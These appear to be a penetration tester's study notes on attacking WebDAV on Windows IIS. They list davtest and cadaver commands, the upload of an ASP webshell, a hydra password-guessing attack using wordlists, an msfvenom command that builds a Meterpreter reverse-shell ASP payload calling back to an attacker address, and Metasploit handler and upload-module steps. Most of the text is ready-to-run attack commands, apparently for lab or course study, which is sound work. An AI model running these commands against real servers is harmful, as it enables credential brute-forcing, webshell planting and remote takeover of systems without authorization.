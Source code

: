 
# Overview
- Set of extensions to HTTP on Win IIS
- Need to provide credentials user/pass
- can access by specifying folder
- can brute force or use prior obtained credentials
- --script http-enum : check for webdav folder and auth

# #Tools

## davtest
- used to scan, authenticate, and exploit WebDAV
- `davtest -auth bob:password -url http://10.34.2.3/webdav`
- series of checks on file types and execution capabilities
## cadaver
- file manipulation: up, down, edit
- `cadaver http://192.168.3.2/webdav`
- authenticate
- give shell where you can list and get/put
- `ls /usr/share/webshells/`
- `put /usr/share/webshells/asp/webshell.asp`
- then navigate in browser to webdav/webshell.asp
## #hydra
- dictionary attack
```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt IPaddr http-get /webdav/
```

## #msfvenom
create payload reverse shell
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.32.2 LPORT=3001 -f asp > meterpreter.asp
```

## #metasploit
make sure postgresql is started
- **use multi/handler**
- set payload windows/meterpreter/reverse_tcp
	- Set to same payload as you generated in **msfvenom**
- set LHOST same_as_payload
- set LPORT same_as_ayload
- run
	- sysinfo
	- getuid
- `search iis upload`
- **use exploit/windows/iis/iis_webdav_upload_asp**
	- set HttpUsername bob
	- set HttpPassword password
	- set rhosts targetIP
	- set PATH /webdav/meterpreter.asp
	- run

